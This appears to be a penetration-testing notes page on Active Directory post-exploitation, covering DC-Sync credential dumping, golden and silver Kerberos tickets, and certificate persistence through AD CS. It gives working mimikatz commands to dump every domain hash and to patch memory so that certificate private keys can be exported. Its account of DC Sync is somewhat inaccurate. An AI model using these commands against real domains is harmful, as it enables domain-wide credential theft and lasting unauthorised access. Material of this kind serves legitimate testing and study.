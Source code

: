 #### Obtaining credentials
###### DC-Sync attack
DC Sync is a tool used to synchronise Domain data accross domains. Usually, it's used for having the same users/services in multiple physical locations (2 offices).
It copies the requested data across two domains.
To dump one user, use:
```
privilege::elevate
lsadump::dcsync /domain:DOMAIN /user:USERNAME@DOMAIN                // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
```

To dump everything:
```
privilege::elevate
log dcdump.txt
lsadump::dcsync /domain:DOMAIN /all
```

#### Forging tickets
###### Golden tickets
Golden tickets are made by impersonating the `krbtgt`, forging a Ticket-Granting-Ticket (`tgt`). They will work as long as the `krbtgt` account's hash is not changed (twice, because both the current and previous hash will work, to avoid accidental password changes stopping productions), the persistence will stay.
It works because the way tickets are validated in the Key Distribution Center (`KDC`) is by checking if the ticket is encrypted with the `krbtgt` password hash.
A `tgt` is used to make a Ticket-Granting-Service (`tgs`), giving access to a target service.
Because any `tgs` made by the `tgt` is valid, this means connections can be made to any services, giving full access to the domain, and the data of the `DC`, to get the password hashes of all users.
To exploit, follow the [[Golden ticket]] instructions.
###### Silver tickets
Silver tickets are a lot like Golden tickets, but instead of having a `tgt` to generate any `tgs` for any service, there is only one `tgs`.
This means it's less useful, but not useless.
To create them, follow the [Silver ticket](Golden ticket#Silver tickets) instructions.

#### Certificate persistence
The Active Directory Certificate Services (`AD CS`) is used to grant certificates in an active directory.
These certificates can be used for encrypting file systems, verifying digital signatures, and most importantly, user authentication.
The centerpiece of the `AD CS` is the Certificate Auhtority (`CA`). 

To check if there is a certificate available (in `mimikatz`)
```
crypto::certificates /systemstore:local_machine
```
Search for the ID and name of the `CA` in the output, and remember the exports. Those files will be the targets.
To get the files:
```
privilege::debug
// Patch the memory to bypass export blocks
crypto::capi
crypto::cng
// Export
crypto::certificates /systemstore:local_machine /export
```
